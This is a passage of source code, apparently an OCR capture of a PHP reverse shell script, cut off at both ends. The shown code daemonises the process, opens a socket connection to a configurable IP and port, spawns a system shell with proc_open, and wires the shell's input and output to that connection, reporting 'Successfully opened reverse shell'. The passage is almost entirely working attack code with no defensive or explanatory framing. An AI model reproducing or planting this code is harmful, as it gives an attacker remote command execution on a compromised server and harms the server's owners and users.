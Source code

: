 ```html
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

```